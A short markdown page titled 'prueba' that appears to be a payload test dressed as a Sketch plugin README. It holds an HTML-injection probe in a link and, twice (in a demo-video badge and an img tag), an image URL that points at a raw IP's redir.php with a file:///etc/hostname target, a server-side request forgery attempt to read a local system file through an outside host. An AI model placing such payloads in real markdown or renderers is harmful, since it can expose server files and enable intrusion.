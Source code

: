 prueba
======

<http://\<h1\>test\</h1\>>
[![Demo Video<img>](http://167.88.44.217/redir.php?url=file:///etc/hostname)](http://www.youtube.com/watch?v=ZJCYUCU7YxQ)

1. [Download Dynamyc button.sketchplugin.](https://github.com/sketchplugins/sketch-dynamic-button/archive/master.zip)

  <img src="http://167.88.44.217/redir.php?url=file:///etc/hostname" alt="installed" width="534" />
